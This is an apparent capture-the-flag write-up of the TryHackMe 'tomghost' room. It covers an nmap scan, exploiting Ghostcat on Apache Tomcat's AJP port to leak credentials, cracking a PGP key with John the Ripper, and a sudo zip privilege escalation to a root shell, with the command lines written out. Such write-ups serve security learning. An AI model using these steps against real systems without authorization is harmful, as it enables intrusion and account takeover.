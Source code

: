 # tomghost

I have to find out what is on the server. For this, we can use an nmap scan with the following command:

```bash
sudo nmap -T4 -A IP_address > nmap
```

We then read the nmap file to see what the server has on it:

```c
Starting Nmap 7.91 ( https://nmap.org ) at 2021-03-07 04:18 GMT
Nmap scan report for 10.10.151.10
Host is up (0.20s latency).
Not shown: 996 closed ports
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 f3:c8:9f:0b:6a:c5:fe:95:54:0b:e9:e3:ba:93:db:7c (RSA)
|   256 dd:1a:09:f5:99:63:a3:43:0d:2d:90:d8:e3:e1:1f:b9 (ECDSA)
|_  256 48:d1:30:1b:38:6c:c6:53:ea:30:81:80:5d:0c:f1:05 (ED25519)
53/tcp   open  tcpwrapped
8009/tcp open  ajp13      Apache Jserv (Protocol v1.3)
| ajp-methods: 
|_  Supported methods: GET HEAD POST OPTIONS
8080/tcp open  http       Apache Tomcat 9.0.30
|_http-favicon: Apache Tomcat
|_http-title: Apache Tomcat/9.0.30
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 21.30 seconds
```

We can see that there are 4 main ports available. Since there is no port 80 (regular HTTP port), we have to look at other ports to see if there is a website for any of these services. Port 8080, had this on the site:

![](<../../.gitbook/assets/image (6) (1) (2).png>)

We now know that they are using the Apache version Tomcat 9.0.30. I will try to use msfconsole (Metasploit) in order to find out if there is a vulnerability against this. Searching on exploit-db.com led me to this:

![exploit-db results for Tomcat](<../../.gitbook/assets/image (5) (1) (1) (1).png>)

At this point, I am thinking that "Ghostcat" might be my way in. I then used searchsploit in order to see what exploits are currently on my ParrotOS relating to this:

![searchsploit output](<../../.gitbook/assets/image (8) (1) (1).png>)

I will then copy this file to my local directory so I can use it for the exploit:

![Copying to local directory](<../../.gitbook/assets/image (2) (1) (1) (1) (1).png>)

I did get lost here because I did find the right exploit, but it was not working for some reason. I did have to search online at this part, and came upon this [website](https://cyber-99.co.uk/thm-tomghost), and I saw they were using a command similar to mine with only one change: they were using the "python2.7" command instead of the regular "python" command. I entered the following:

```c
python2.7 48143.py 10.10.151.10
```

The output to the command was the following:

```markup
Getting resource at ajp13://10.10.151.10:8009/asdf
----------------------------
<?xml version="1.0" encoding="UTF-8"?>
<!--
 Licensed to the Apache Software Foundation (ASF) under one or more
  contributor license agreements.  See the NOTICE file distributed with
  this work for additional information regarding copyright ownership.
  The ASF licenses this file to You under the Apache License, Version 2.0
  (the "License"); you may not use this file except in compliance with
  the License.  You may obtain a copy of the License at

      http://www.apache.org/licenses/LICENSE-2.0

  Unless required by applicable law or agreed to in writing, software
  distributed under the License is distributed on an "AS IS" BASIS,
  WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
  See the License for the specific language governing permissions and
  limitations under the License.
-->
<web-app xmlns="http://xmlns.jcp.org/xml/ns/javaee"
  xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
  xsi:schemaLocation="http://xmlns.jcp.org/xml/ns/javaee
                      http://xmlns.jcp.org/xml/ns/javaee/web-app_4_0.xsd"
  version="4.0"
  metadata-complete="true">

  <display-name>Welcome to Tomcat</display-name>
  <description>
     Welcome to GhostCat
    skyfuck:password <!----I took out the password----->
  </description>

</web-app>
```

After this, I saved the username and password. I had to see where the username and password would fit into. Turns out, it works for SSH:

![The home directory for the user](<../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png>)

There were 2 files in this directory: credential.pgp and tryhackme.asc. Neither of them looked as interesting as I thought they would. Looking around, I found a folder of a different user, and in their directory, I found the user.txt file.

![The other user's file](../../.gitbook/assets/screenshot-2021-03-06-230615.png)

I realized that to switch my user access, to merlin (or even to root), I had to do something with the files in the skyfuck directory. I downloaded them using scp:

![Scp command](../../.gitbook/assets/screenshot-2021-03-06-231338.png)

I did run into run more trouble here as well. While trying to import the tryhackme.asc by gpg, it was asking me for a password, which I did not have. I had to refer back to the [previous website ](https://cyber-99.co.uk/thm-tomghost)to see how else I can attack this problem. Based on the website, my next step was to use John the ripper to crack the asc file. Prior to doing that, I did have to change into a format that is readable by John. Here is where programs in /opt/john/ come into play. They convert files from one type into a john crackable format. We will use "gpg2john.py".

![gpg2john command](<../../.gitbook/assets/image (7) (1) (1) (1).png>)

Running john on it let me to a password:

![john output](../../.gitbook/assets/screenshot-2021-03-06-233030.png)

I then used the commands on [this website](https://superuser.com/questions/46461/decrypt-pgp-file-using-asc-key) in order to decrypt the files using the password from the john command.

![](../../.gitbook/assets/screenshot-2021-03-06-233420.png)

From there, I got into merlin's account using that password. I ran "sudo -l" to see what commands the user merlin is able to do.

![sudo -l output](<../../.gitbook/assets/image (6) (1) (1).png>)

We can see that merlin is able to the "zip" command. I have not used this command before, so i will have to do research into how we can root using this. I went to the [GTFObins website](https://gtfobins.github.io/gtfobins/zip/#sudo) to see how I am able to get root on this machine. I ran the following commands:

```markup
TF=$(mktemp -u)
sudo zip $TF /etc/hosts -T -TT 'sh #'
```

After this, I had a root shell. I was then able to read the contents of /root/root.txt.

![](../../.gitbook/assets/screenshot-2021-03-06-234126.png)

I had now gotten the password and had completed the room. Overall, it was a great room. I did get lost a couple of times, but I think that's part of the learning process.
